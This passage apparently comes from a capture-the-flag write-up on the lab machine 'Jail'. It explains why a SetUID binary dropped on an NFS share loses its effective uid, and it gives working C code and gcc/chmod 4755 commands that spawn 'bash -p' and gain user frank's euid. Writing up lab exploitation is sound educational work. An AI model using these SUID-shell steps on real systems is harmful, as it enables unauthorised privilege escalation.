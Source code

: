 
I’ll compile that and set it SetUID:

    
    
    oxdf@hacky$ gcc d.c -o /mnt/nfsshare/d
    oxdf@hacky$ chmod 4755 /mnt/nfsshare/d
    

Still, this will return all nobody:

    
    
    bash-4.2$ $ ./d
    bash-4.2$ $ id
    uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
    

If it were `setuid(0)`, then it would work fine (assuming the process had
permission to do that), as then it changes all three ids to 0. But as a non-
root user, this just sets the `euid` to 1000 (which is already was), and then
calls `sh`. But `sh` is `bash` on Jail. And when `bash` starts with `ruid` of
99 and `euid` of 1000, it will drop the `euid` back to 99.

To fix this, I’ll call `bash -p`:

    
    
    #define _GNU_SOURCE
    #include <stdlib.h>
    #include <unistd.h>
    
    int main(void) {
        char *const paramList[10] = {"/bin/bash", "-p", NULL};
        setuid(1000);
        execve(paramList[0], paramList, NULL);
        return 0;
    }
    

This time the `euid` is there:

    
    
    bash-4.2$ $ ./e
    bash-4.2$ $ id
    uid=99(nobody) gid=99(nobody) euid=1000(frank) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
    

Or I could call `setreuid` or `setresuid` instead of `setuid`.

## Conclusion

The fact is, for most cases, all of this nuance doesn’t matter. If it’s SetUID
for root, `setuid` does what I want. If `sh` isn’t symlinked to `bash`, I
don’t have to worry about dropping privs. Still, it’s good to understand
what’s happening in a program like this. I would recommend, based on this
research, using the basic SUID code, updating the program / parameters to be
call as well as the id:

    